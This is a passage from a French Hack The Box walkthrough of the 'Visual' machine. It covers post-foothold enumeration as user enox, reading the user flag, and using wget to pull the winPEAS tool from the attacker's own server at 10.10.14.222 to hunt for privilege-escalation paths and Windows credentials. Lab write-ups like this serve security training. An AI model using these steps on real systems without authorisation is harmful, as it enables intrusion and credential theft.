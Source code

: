 Executer `whoami` nous permet de constater que nous sommes l'utilisateur `enox`.

![whoami command on target](/images/HTB-Visual/target-whoami.png)

Nous pouvons vérifier nos privilèges avec `whoami /priv`.
![privilege on target machine](/images/HTB-Visual/target-priv.png)

Je vais dans le répertoire principal de l'utilisateur avec `cd \Users\enox` et j'utilise `ls` pour voir les différents sous-répertoires.

![directories listing on target](/images/HTB-Visual/target-directories.png)

Je consulte le contenu du répertoire `Desktop` avec `dir Desktop` et je vois le drapeau `user.txt`. Utilisez `cat user.txt` pour examiner son contenu.

![User flag](/images/HTB-Visual/Visual-user-flag.png)

### Mouvement Latéral

Pour trouver les chemins d'escalade de privilèges, utilisons [winPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20240223-ab2bb023). Téléchargez WinPEASany.exe et stockez-le dans le dossier que vous utilisez pour votre serveur python.

![winPEAS location](/images/HTB-Visual/winPEAS-location.png)

Transférer le fichier sur le système cible avec `wget`.
```
wget http://10.10.14.222:8000/winPEASany.exe -o wpany.exe
```

> Utilisez votre adresse IP et remplacez le port par celui que vous utilisez pour votre serveur.

Vérifiez que le fichier se trouve sur la cible.

![winPEAS location on target](/images/HTB-Visual/winPEAS-on-target.png)

Vous pouvez vérifier les options de winPEAS avec `./wpany.exe -h`.

![winPEAS options](/images/HTB-Visual/winpeas-options.png)

Exécutez winPEAS avec les options que vous souhaitez. Parce que je veux une énumération assez complète, j'utilise la commande suivante
```
./wpany.exe domain systeminfo userinfo processinfo servicesinfo applicationsinfo networkinfo windowscreds browserinfo filesinfo eventsinfo quiet
```

Il semble que nous possédons les permissions pour accéder au dossier contenant le service Apache HTTP Server.

![Apache Server HTTP](/images/HTB-Visual/ApacheServerHTTP.png)

En parcourant les résultats, on peut noter que nous avons un accès complet au répertoire xampp (rappelez-vous qu'il s'agit d'une application PHP), le même dossier que celui dans lequel Apache est stocké.
